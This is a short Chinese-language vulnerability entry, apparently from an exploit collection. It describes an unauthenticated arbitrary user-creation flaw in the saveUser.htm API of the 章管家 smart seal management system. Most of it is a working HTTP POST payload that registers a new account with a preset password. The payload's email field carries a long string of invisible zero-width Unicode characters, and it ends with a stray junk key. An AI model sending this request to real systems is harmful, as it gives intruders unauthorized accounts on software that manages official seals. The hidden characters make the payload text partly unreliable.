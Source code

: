 **漏洞描述：**

章管家saveUser.htm接口存在任意用户创建漏洞，未授权攻击者可以通过向接口发送请求创建用户。

**影响版本：**

章管家智能印章管理系统

**Payload：**

```jsx
POST /api/personSeal_jdy/saveUser.htm HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: application/json

{"op":{},"data":{"mobile":"14333333333","uid":"14333333333","password":"123456","name":"test","return_url":"https://www.te.st","apisecretkey":"1","_id":"1","mail_address":"‍﻿﻿‏﻿‌‎‎﻿te@***com‏‏‍​‏‏﻿﻿‏﻿﻿‏‌﻿‏‎‎‎‌‎‍‌‎﻿‏‏﻿‎‎‍‍‏‌‌﻿﻿‏﻿﻿‏‏﻿‍﻿‎‌‏‏‎‌‎﻿‍​‏‍‏﻿‎‎‎‍‎﻿‎‌﻿﻿‍​﻿﻿‍﻿‎‍‌‍‌‏‎‎‏﻿"},"b7o4ntosbfp":"="}
```

---
